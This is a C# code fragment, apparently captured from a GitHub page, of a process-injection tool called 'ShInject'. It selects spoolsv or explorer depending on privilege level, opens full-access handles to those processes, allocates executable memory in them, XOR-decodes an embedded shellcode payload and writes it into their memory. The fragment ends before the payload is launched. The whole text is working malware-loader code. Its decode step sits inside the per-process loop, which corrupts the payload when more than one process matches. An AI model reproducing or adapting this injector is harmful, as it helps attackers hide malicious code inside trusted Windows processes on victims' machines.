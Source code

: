 ```csharp
            // Parse arguments, if given (process to inject)
            String procName = "";
            if (args.Length == 1)
            {
                procName = args[0];
            }
            else if (args.Length == 0) {
                // Inject based on elevation level
                if (IsElevated)
                {
                    Console.WriteLine("Process is elevated.");
                    procName = "spoolsv";
                } 
                else
                {
                    Console.WriteLine("Process is not elevated.");
                    procName = "explorer";
                }
            }
            else
            {
                Console.WriteLine("Please give either one argument for a process to inject, e.g. \".\\ShInject.exe explorer\", or leave empty for auto-injection.");
                return;
            }

            Console.WriteLine($"Attempting to inject into {procName} process...");

            // Get process IDs
            Process[] expProc = Process.GetProcessesByName(procName);

            // If multiple processes exist, try to inject in all of them
            for (int i = 0; i < expProc.Length; i++)
            {
                int pid = expProc[i].Id;

                // Get a handle on the process
                IntPtr hProcess = OpenProcess(ProcessAccessFlags.All, false, pid);
                if ((int)hProcess == 0)
                {
                    Console.WriteLine($"Failed to get handle on PID {pid}.");
                    continue;
                }
                Console.WriteLine($"Got handle {hProcess} on PID {pid}.");

                // Allocate memory in the remote process
                IntPtr expAddr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)len, AllocationType.Commit | AllocationType.Reserve, MemoryProtection.ExecuteReadWrite);
                Console.WriteLine($"Allocated {len} bytes at address {expAddr} in remote process.");

                // Decode the payload
                for (int j = 0; j < buf.Length; j++)
                {
                    buf[j] = (byte)((uint)buf[j] ^ 0xfa);
                }

                // Write the payload to the allocated bytes
                IntPtr bytesWritten;
                bool procMemResult = WriteProcessMemory(hProcess, expAddr, buf, len, out bytesWritten);
                Console.WriteLine($"Wrote {bytesWritten} payload bytes (result: {procMemResult}).");
```